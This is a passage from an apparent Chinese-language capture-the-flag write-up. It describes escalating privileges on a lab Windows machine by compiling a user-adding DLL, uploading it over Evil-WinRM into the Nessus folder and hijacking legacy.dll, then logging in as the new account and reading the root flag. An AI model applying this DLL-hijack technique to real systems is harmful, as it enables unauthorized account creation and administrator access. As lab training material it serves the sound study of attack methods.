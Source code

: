 将其编译为`DLL`文件,使用`x86_64-w64-mingw32-gcc.exe` 可以生成64位`windows`的`DLL`文件

```c
PS C:\Program Files\mingw64\bin> .\x86_64-w64-mingw32-gcc.exe .\adduser.c --shared -o adduser.dll -lnetapi32
```

将其上传到靶机，再将名字改为`VCRUNTIME140.dll`

```c
*Evil-WinRM* PS C:\program files\tenable\nessus> upload adduser.dll ./VCRUNTIME140.dll
```

重启检查一下用户是否创建成功，没成功…

随后尝试将劫持的DLL改为`legacy.dll` 

```c
*Evil-WinRM* PS C:\program files\tenable\nessus> mv legacy.dll legacy.dll.bak;mv VCRUNTIME140.dll legacy.dll
```

重启，尝试登录用户，成功登录！！

```c
evil-winrm -i 192.168.56.8 -u sunset -p sunset
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sunset\Documents> 
```

## ROOT Flag

读取`root flag`

```c
*Evil-WinRM* PS C:\Users\administrator\DEsktop> type root.txt
b5fc5a4ebfc20cc18220a814e1aee0aa
```

## 为什么劫持`VCRUNTIME140.dll` 会失败？

可能的

现代操作系统或应用程序可能启用了各种防护机制（如ASLR、SafeDllSearchMode等），这些机制可能会影响DLL的加载
如果使用 `legacy.dll` 成功，可能是因为这个DLL并没有被目标程序明确要求或者它的加载顺序不同于 `VCRUNTIME140.dll`。`legacy.dll` 可能与目标程序的兼容性较高，或者它没有被防护机制所拦截。

可以看到`VCRUNTIME140.dll` 被调用了特定的函数
